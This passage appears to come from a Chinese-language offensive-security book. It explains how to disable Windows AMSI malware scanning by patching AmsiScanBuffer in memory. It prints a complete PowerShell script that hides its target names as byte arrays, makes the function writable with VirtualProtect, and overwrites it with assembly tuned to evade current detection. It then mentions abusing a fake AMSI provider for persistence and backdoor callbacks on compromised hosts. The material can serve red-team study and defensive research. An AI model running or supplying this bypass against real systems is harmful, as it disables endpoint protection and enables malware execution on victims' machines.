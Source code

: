 我们可以通过几种方式在内存中操控 AMSI 来实现绕过。其背后的关键原因是我们完全控制了 `amsi.dll` 被加载的进程。一个例子是强制 `AmsiScanBuffer` 返回 `AMSI_RESULT_CLEAN`。一般思路是导入 API 调用，然后返回一个特定的值给 `AmsiScanBuffer()` 调用：`0x80070057`。原始的绕过方法现在已被 AMSI 检测到，因此我们可以通过使用双重 `add` 操作数并成功绕过控制来操控汇编指令。相关代码如下：

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$test = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($test))
$test2 = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$Address = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($test2))
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3)
#0:  31 c0                   xor    eax,eax
#2:  05 78 01 19 7f          add    eax,0x7f190178
#7:  05 df fe ed 00          add    eax,0xedfedf
#c:  c3                      ret
#for ($i=0; $i -lt $Patch.Length;$i++){$Patch[$i] = $Patch[$i] -0x2}
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, $Patch.Length)
```

运行上述命令得到的结果如下：

![图 2.6 – 使用内存补丁成功解除 AMSI 防护](img/B18964_02_06.jpg)

图 2.6 – 使用内存补丁成功解除 AMSI 防护

作为攻击者，我们不能忽视一些防御机制也可能被滥用和绕过的事实。一个很好的例子是 *netbiosX*[8] 发布的内容，指出 AMSI 可以用来在被攻破的主机上实现持久性。利用之前的研究和他们的编码技巧，开发了一个伪造的 AMSI 提供者并在被攻破的主机上注册。通过使用特殊的关键词，我们可以从后门发起回调。
